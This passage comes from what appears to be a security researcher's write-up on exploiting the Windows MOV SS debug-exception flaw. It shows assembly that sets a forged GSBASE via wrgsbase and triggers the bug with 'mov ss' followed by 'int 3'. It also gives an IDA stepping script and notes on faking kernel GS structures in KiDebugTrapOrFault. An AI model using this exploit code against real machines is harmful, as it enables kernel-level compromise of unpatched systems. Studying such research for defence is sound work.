 ```

    X64_Start:
    __emit 0xf3								             ; wrgsbase eax
    __emit 0x0f
    __emit 0xae
    __emit 0xd8
    retf 
    X64_End:
    
    ; Vulnerability
    mov ss, word ptr [ g_SavedSS ]			    ; Defer debug exception
    int 3                           		    ; Execute with interrupts disabled
    nop
  }
}

```

_This example is 32-bit for the sake of showing ASM and C together, the final working code will be 64-bit._

Now let’s start debugging, we are in **KiDebugTrapOrFault** with our custom GSBASE! However, this is nothing but catastrophic, almost no function works and we will end up in a KiDebugTrapOrFault->KiGeneralProtectionFault->KiPageFault->KiPageFault->… infinite loop. If we had a perfectly valid GSBASE, the outcome of what we achieved so far would be a KMODE_EXCEPTION_NOT_HANDLED BSOD**,** so let’s focus on making GSBASE function like the real one and try to get to KeBugCheckEx.

We can utilize a small IDA script to step to relevant parts faster:

```
#include <idc.idc>

static main() 
{
  Message( "--- Step Till Next GS ---\n" );
  
  while( 1 )
  {
    auto Disasm = GetDisasmEx( GetEventEa(), 1 );
    if ( strstr( Disasm, "gs:" ) >= Disasm )
      break;
    StepInto();
    GetDebuggerEvent( WFNE_SUSP, -1 );
  }
}

```

Here are the few cases we have to modify GSBASE contents to pass through successfully:

### – KiDebugTrapOrFault

```
KiDebugTrapOrFault:
...
MEMORY:FFFFF8018C20701E ldmxcsr dword ptr gs:180h

```
